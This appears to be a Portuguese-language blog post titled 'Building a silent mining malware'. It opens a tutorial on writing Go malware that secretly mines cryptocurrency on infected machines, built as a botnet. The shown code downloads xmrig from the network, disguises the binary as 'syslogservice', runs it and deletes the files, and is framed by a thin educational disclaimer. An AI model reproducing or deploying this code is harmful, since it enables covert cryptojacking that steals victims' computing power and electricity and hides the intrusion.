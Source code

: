 ```yaml
---
layout: post
title:  "Building a silent mining malware"
date:   2022-08-10 01:51:18 -0300
categories: ["Cyber Security"]

---
```

Com a popularidade das crypto moedas investir em mineração certamente foi algo que passou pela cabeça de muitas pessoas, mas os altos custos de hardware e de energia fez com que fosse inviável ou não rentável para muitas pessoas. Mas e se você pudesse apenas receber os lucros da mineração, sem se preocupar com os gastos em hardware e energia, e além disso usar centenas ou milhares de computadores para isso? Foi isso que motivou cyber criminosos a criar botnets com várias maquinas infectadas com esse malware minerador.

## Disclaimer
Esse artigo foi escrito únicamente para fins de aprendizados para entusiastas ou profissionais de cybersegurança, não me responsabilizo pelo uso indevido do conhecimento adquirido aqui.

<!-- Esse malware sera criado usando Go porque é uma linguagem simples e compilada. -->
## Code
Nosso malware vai funcionar em 3 etapas:
1. Baixar e configurar o xmrig e excluir os arquivos gerados.
2. Criar persistência na máquina.
3. Encontrar e remover outros mineradores na máquina infectada.


### Etapa 1
Primeiramente temos que pegar a url de download do minerador, podemos encontrar facilmente no próprio repositório do xmrig.a
![](../assets/images/xmrig_github.png)
```go
func getMiner() {
	minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"

	payload := "wget " + minerLink + "; curl -L " + minerLink + "; tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz; mv config.json xmrig-6.16.3; cd xmrig-6.16.3; mv xmrig syslogservice; ./syslogservice; pid=$!; wait $pid; cd ..; rm xmrig-6.16.3-linux-static-x64.tar.gz; pid=$!; wait $pid; rm -R xmrig-6.16.3; pid=$!; wait $pid; rm k4ynv2;"

	data := []byte(payload)

	ioutil.WriteFile("k4yn.sh", data, 0644)

	exec.Command("chmod", "777", "k4yn.sh").Output()
	exec.Command("chmod", "+x", "k4yn.sh").Output()
	exec.Command("/bin/sh", "k4yn.sh").Output()
}
```